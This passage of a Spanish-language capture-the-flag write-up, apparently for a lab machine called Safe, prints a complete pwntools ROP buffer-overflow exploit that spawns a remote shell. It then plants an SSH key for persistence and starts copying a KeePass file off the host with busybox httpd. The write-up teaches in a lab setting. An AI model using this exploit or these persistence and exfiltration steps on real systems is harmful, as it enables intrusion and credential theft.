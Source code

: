 Vamos a crear un exploit en python3 que haga la llamada al programa, desborde el buffer y meta las instrucciones en los registros.

>\#!/usr/bin/python3

>from pwn import *

>context(terminal=['tmux', 'new-window'])

>context(os='linux', arch='amd64')

>p = remote("10.10.10.147", 1337)

>junk = b"A"*112 # a los 120 se restan los caracteres de /bin/sh\x00 = 7 caracteres + nullbyte = 8 caracteres

>bin_sh = b"/bin/sh\x00"

>\# gef➤  ropper --search "pop r13"

>\# 0x0000000000401206: pop r13; pop r14; pop r15; ret; 

>pop_r13 = p64(0x401206)
>null = p64(0x0)

>\#  0000000000401040 <system@plt>:

>\#  401040:	ff 25 da 2f 00 00    	jmp    *0x2fda(%rip)        # 404020 <system@GLIBC_2.2.5\>

>\#  40116e:	e8 cd fe ff ff       	call   401040 <system@plt>

>system_plt = p64(0x401040)

>\# 0000000000401152 <test>:

>test = p64(0x401152)

>payload = junk + bin_sh + pop_r13 + system_plt + null + null + test

>p.sendline(payload)

>p.interactive()

Lanzamos el exploit y nos na una shell de usuario con el usuario user.

![Shell de user]({{site.baseurl}}/assets/img/Safe/screensht_22-06-09_20_36_47.png)

Esta es una pseudo consola, lo  ideal seria poder usar una consola plena, revisamos el home del user y ya podemos ver la flag de user, ademas vemos que tiene .ssh con lo que podemos crear un par de claves en nuestro equipo y copiar la clave publica a la maquina safe como authorized\_keys y asi poder entrar por ssh como user sin que nos pida la contraseña.

![Authorized_keys]({{site.baseurl}}/assets/img/Safe/screensht_22-06-09_21_13_17.png)

***************************

#Escalada de privilegios

Una vez dentro como user vemos que en el home tenemos un archivo de keepass y unas cuantas imagenes, nos las copiamos a nuestra maquina para poder enumerarlas. Como la máquina no tiene ni curl, ni wget ni python podemos intentar copiarlas mediante bussybox: 
>busybox httpd -f -p 8000
 